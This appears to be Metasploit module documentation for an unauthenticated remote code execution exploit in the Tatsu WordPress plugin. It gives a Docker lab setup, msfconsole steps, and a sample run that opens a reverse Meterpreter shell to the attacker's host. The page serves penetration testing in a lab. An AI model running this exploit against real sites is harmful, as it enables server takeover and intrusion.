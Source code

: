 ## Vulnerable Application

This module exploits unauthenticated remote code execution in Tatsu plugin for Wordpress. The vulnerable version is below 3.3.11.
The module upload malicious zip file containing PHP payload, which gets parsed and unzipped into Wordpress upload directory.
Then module will trigger the payload by sending request with payload directory as URI.
The vulnerable plugin is available [here](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)

## Verification Steps


1. Install the application
1.1 Create `docker-compose.yml`
```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: ms
      WORDPRESS_DB_PASSWORD: supersecret
      WORDPRESS_DB_NAME: proof_of_concept
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: proof_of_concept
      MYSQL_USER: ms
      MYSQL_PASSWORD: supersecret
      MYSQL_ROOT_PASSWORD: supersecret
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
1.2 Download [plugin](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)
1.3 Install the plugin in Wordpress admin portal

2. `msfconsole`
3. `use multi/http/wp_tatsu_rce`
4. `set RHOST [target IP]`
5. `set RPORT [target PORT]`
6. `set LHOST [attacker's IP]`
7. `set LPORT [attacker's port]`

## Options


## Scenarios


Vulnerable version is <= 3.3.11.

```
`msf6 exploit(multi/http/wp_tatsu_rce) > run
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 172.18.0.2
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 172.18.0.2:37718) at 2025-06-11 18:59:35 +0200
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer    : ff0d55ec29bf
OS          : Linux ff0d55ec29bf 6.12.10-76061203-generic #202412060638~1748542656~22.04~663e4dc SMP PREEMPT_DYNAMIC Thu M x86_64
Meterpreter : php/linux
meterpreter > 
```
